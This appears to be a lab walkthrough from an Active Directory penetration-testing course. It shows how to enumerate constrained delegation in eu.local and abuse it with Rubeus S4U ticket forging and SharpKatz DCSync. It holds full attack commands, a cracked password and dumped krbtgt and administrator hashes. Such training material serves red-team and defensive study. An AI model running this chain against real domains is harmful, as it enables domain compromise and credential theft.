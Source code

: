 # Hands-on 23: Cross Domain Attacks - Constrained Delegation

- [Hands-on 23: Cross Domain Attacks - Constrained Delegation](#hands-on-23-cross-domain-attacks---constrained-delegation)
  - [Task](#task)
  - [Enumerate users in the eu.local domain for whom Constrained Delegation is enabled](#enumerate-users-in-the-eulocal-domain-for-whom-constrained-delegation-is-enabled)
  - [Abuse the Delegation to execute DCSync attack against eu.local](#abuse-the-delegation-to-execute-dcsync-attack-against-eulocal)

---

## Task

- Enumerate users in the eu.local domain for whom Constrained Delegation is enabled.
- Abuse the Delegation to execute DCSync attack against eu.local.

<br/>

---

## Enumerate users in the eu.local domain for whom Constrained Delegation is enabled

Import AD Module:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

Enumerate users in `eu.local` with Constrained Delegation (`msDS-AllowedToDelegatedTo` != `null`):

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local
```

![picture 1](images/7cae8e5f9b95f6f1f86c6dba782bd07f0b78bbe4f5a398b0d3d7420d338b01b5.png)  

- `eu\storagesvc` has constrained delegation

<br/>

---

## Abuse the Delegation to execute DCSync attack against eu.local

In [Hands-on 22: Cross Forest Kerberoasting](l22-CrossForestKerberoast.md), we found that password of `storagesvc` to be `Qwerty@123`.

We can use **Rubeus.exe** to request an alternative ticket:

```
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@123 /user:storagesvc /domain:eu.local
```

![picture 2](images/ce3c827a48534fd6f3659082c25162ab7c289057b0dfe8450db6706c093caf37.png)  

```
C:\AD\Tools\Rubeus.exe s4u /user:storagesvc /rc4:5C76877A9C454CDED58807C20C20AEAC /impersonateuser:Administrator /domain:eu.local /msdsspn:nmagent/eu-dc.eu.local /altservice:ldap /dc:eu-dc.eu.local /ptt
```

![picture 3](images/d1766cabf48ad17fe6ee5583b97d6a5cfdf0d2a81f0492147ef1135c03599443.png)  

![picture 4](images/d67168201c2cb51075f32f1e34e7bc97f0b200354b8c4414e4465b9e463784f3.png)  


<br/>

Then abuse the injected ticket to perform a DCSync:

```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\krbtgt --Domain eu.local --DomainController eu-dc.eu.local
```

![picture 5](images/f95ce692ae71f9a44f32de4d9b00ab74fa69af93b81926305f8f9120a4c4b7a5.png)  

Note:
eu\krbtgt
- SID: `S-1-5-21-3657428294-2017276338-1274645009-502`
- AES256: `b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d`
- NTLM: `83ac1bab3e98ce6ed70c9d5841341538`

<br/>

```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\administrator --Domain eu.local --DomainController eu-dc.eu.local
```

![picture 6](images/3b9407b7bf2652cd7007ec0005e203671fec14f7af0aa189e02a2f024bf3c116.png)  

Note:
eu\administrator
- SID: `S-1-5-21-3657428294-2017276338-1274645009-500`
- AES256: `4e7ba210b76d807429e7ad8b210e103528dcf5db8b9de6b411bf593269955a6d`
- NTLM: `fe422f818eb7e9c6de5862d94739c2e4`